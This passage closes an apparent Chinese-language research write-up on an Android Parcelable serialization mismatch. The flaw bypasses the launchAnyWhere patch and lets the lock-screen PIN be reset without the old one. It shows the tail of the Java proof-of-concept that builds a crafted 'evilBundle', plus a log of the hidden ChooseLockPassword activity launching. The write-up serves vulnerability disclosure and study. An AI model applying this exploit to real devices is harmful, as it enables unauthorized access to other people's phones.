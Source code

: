 ```
        pcelData.writeInt(0); // VAL_STRING
        pcelData.writeString("Padding-Value"); //


        int length  = pcelData.dataSize();
        Log.d(TAG, "length is " + Integer.toHexString(length));
        bndlData.writeInt(length);
        bndlData.writeInt(0x4c444E42);
        bndlData.appendFrom(pcelData, 0, length);
        bndlData.setDataPosition(0);
        evilBundle.readFromParcel(bndlData);
        Log.d(TAG, evilBundle.toString());
       return evilBundle;

    }

```

由于 Settings 似乎取消了自动化的点击新建账户接口，上述 POC 利用的漏洞触发还需要用户在 Settings->Users&accounts 中点击我们加入的 Authenticator，点击以后就会调用 addAccount 方法，最终能够启动 settings 中的隐藏 Activity ChooseLockPassword。

```
05-07 06:24:34.337  4646  5693 I ActivityManager: START u0 {act=android.intent.action.RUN flg=0x10000000 cmp=com.android.settings/.password.ChooseLockPassword (has extras)} from uid 1000

```

原先设置锁屏 PIN 码的测试手机，就会出现重新设置 PIN 码界面，点一下返回，就会出现以下 PIN 码设置界面。这样就可以在不需要原 PIN 码的情况下重设锁屏密码。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180530175405-6391fb22-63ef-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180530175405-6391fb22-63ef-1.png)

### 0x04 后记

没想到序列化和反序列化作为极小的编程错误，却可以带来深远的安全影响。这类漏洞可能在接下来的安全公告中还会陆续有披露，毕竟在源码树中搜索序列化和反序列化不匹配的 Parcelable 类是较为容易的，漏洞的作者应该持续发现了一批。

然而，每个类不匹配的情况有所不同，因此在漏洞利用绕过 launchAnywhere 补丁时需要重新精确布置 Bundle，读者可以用其他有漏洞的 Parcelable 类来练手。

这类漏洞也是不匹配或者说不一致（Inconsistency) 性漏洞的典型。除了序列化和反序列化不一致外，历史上 mmap 和 munmap 不一致、同一功能实现在 Java 和 C 中的不一致、不同系统对同一标准实现的不一致等等都产生过有趣的漏洞，寻找这种不一致也是漏洞研究的一种方法论。

### 参考

[1] [漏洞预警 | Android 系统序列化、反序列化不匹配漏洞](https://www.anquanke.com/post/id/103570)

[2] [launchAnyWhere: Activity 组件权限绕过漏洞解析](http://retme.net/index.php/2014/08/20/launchAnyWhere.html)
